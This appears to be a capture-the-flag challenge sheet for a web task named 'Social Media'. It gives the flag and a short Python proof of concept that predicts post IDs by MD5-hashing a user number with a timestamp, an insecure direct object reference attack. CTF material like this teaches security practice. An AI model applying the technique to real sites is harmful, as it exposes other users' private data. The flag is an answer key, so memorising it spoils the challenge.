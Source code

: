 # Challenge Name:
Social Media

## Description:
Make sure that your app validates things before they get in.

## Category:
Web

## File:
./dist.zip

## Flag:
`STORM{id0rrrrr_88efdbccaeddea_flag_found}`

## Points:
500

## Author:
k.eii

## PoC
```
import hashlib
import time

timestamp = int(time.mktime(time.strptime('2025-01-15 16:05:38', '%Y-%m-%d %H:%M:%S')))
print(f"Timestamp: {timestamp}")
data = f"51{timestamp}"

hash_result = hashlib.md5(data.encode()).hexdigest()

print(f"post id: {hash_result}")
```